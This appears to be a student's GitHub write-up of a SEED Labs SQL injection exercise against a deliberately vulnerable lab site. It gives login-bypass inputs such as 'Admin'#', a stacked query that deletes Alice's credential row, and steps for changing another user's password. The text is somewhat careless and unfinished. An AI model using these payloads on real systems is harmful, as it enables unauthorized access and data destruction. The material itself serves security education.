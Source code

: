# Seed-lab-SQL-injection

# Task 1
sudo mysql -u root -pseedubuntu

mysql> use Users;

mysql> show Tables;

mysql> select * from credential where Name = 'Alice';

![Task 1 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%201.png)

# task 2

# task 2.1

Username "Admin'#"
Password "abc" It will result in a SQL query as:

SELECT id, name, eid, salary, birth, ssn, address, email,

nickname, Password

FROM credential

WHERE name= 'Admin' #' and Password='abc'

Then statements after # will be regarded as comments. So we can log in as Admin.

![Task 2.1 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%202.1.png)

# task 2.2

![Task 2.2 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%202.2.png)

Now we use SQL query to update data using same vulnerability

'1=1; DELETE from credential where name='Alice';
So

USERNAME : '1=1; DELETE from credential where name='Alice';

PASSWORD : ""

As result


![Task 2.3 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%202.3.png)


#task 3

It's hard to find the navigation buttons on this website (www.SeedLabSQLInjection.com). In order to edit the profile, please log in and then jump to the link address: http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by hand.

# Task 3.1

Log in with Alice's

USERNAME : "Alice'#"

PASSWORD : ""

# task 3.2

Log in with Boby

USERNAME : "Boby'#"

PASSWORD : ""

![Task 3.2 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%203.2.png)

# Task 3.3

The simplest approach is to log-in as Alice like Task 3.1 and change the password. Log in with Boby

USERNAME : "Alice'#"

PASSWORD : ""

Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Assume we want to change Alice's password as 12345. First, we should get SHA1 value of our new password via Terminal using Command

![Task 3.3 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%203.3.png)

